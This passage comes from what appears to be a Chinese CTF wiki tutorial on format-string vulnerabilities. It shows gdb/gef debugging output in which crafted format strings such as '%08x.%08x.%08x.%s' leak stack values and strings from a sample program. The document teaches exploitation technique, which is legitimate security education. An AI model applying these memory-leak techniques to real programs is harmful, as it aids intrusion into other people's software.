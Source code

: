 ```shell
0xffffcd18│+0x1c: 0x000000e0
gef➤  c
Continuing.
f7e8b6bb[Inferior 1 (process 57442) exited normally]
```

可以看出，我们确实获得了printf的第4个参数所对应的值f7e8b6bb。

#### 获取栈变量对应字符串

此外，我们还可以获得栈变量对应的字符串，这其实就是需要用到%s了。这里还是使用上面的程序，进行gdb调试，如下

```shell
➜  leakmemory git:(master) ✗ gdb leakmemory
gef➤  b printf
Breakpoint 1 at 0x8048330
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory
%s

Breakpoint 1, __printf (format=0x8048563 "%08x.%08x.%08x.%s\n") at printf.c:28
28	printf.c: 没有那个文件或目录.
────────────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
────────────────────────────────────────────────────────[ stack ]────
['0xffffccec', 'l8']
8
0xffffccec│+0x00: 0x080484bf  →  <main+84> add esp, 0x20	 ← $esp
0xffffccf0│+0x04: 0x08048563  →  "%08x.%08x.%08x.%s"
0xffffccf4│+0x08: 0x00000001
0xffffccf8│+0x0c: 0x22222222
0xffffccfc│+0x10: 0xffffffff
0xffffcd00│+0x14: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd04│+0x18: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd08│+0x1c: 0x000000c2
gef➤  c
Continuing.
00000001.22222222.ffffffff.%s

Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
28	in printf.c
──────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret
──────────────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
```